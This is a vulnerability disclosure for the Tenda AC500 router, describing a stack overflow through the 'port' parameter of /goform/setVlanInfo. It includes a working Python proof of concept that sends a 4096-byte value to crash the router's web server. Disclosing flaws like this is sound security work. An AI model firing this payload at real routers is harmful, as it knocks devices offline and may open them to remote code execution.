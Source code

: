 # Affected Version
Tenda AC500 V2.0.1.9(1307)
# Vulnerability Description
Tenda AC500 V2.0.1.9(1307) was discovered to contain a stack overflow via parameter port at url /goform/setVlanInfo.

# Firmware download address
https://www.tenda.com.cn/download/detail-2470.html

# Vulnerability Details
In function fromSetVlanInfo line 31, src is a a user-controlled parameter(‘port’) and is read in without length check.Then in line 37, the content of src is copied into local variable dest, which leads to a stack overflow vulnerbility.
![Alt text](1.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of bin/httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'action':'add',
    'port': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.138',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.138/goform/setVlanInfo'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

# Timeline
# Acknowledgment
Credit to @peris-navince from Beijing University of Posts and Telecommunications.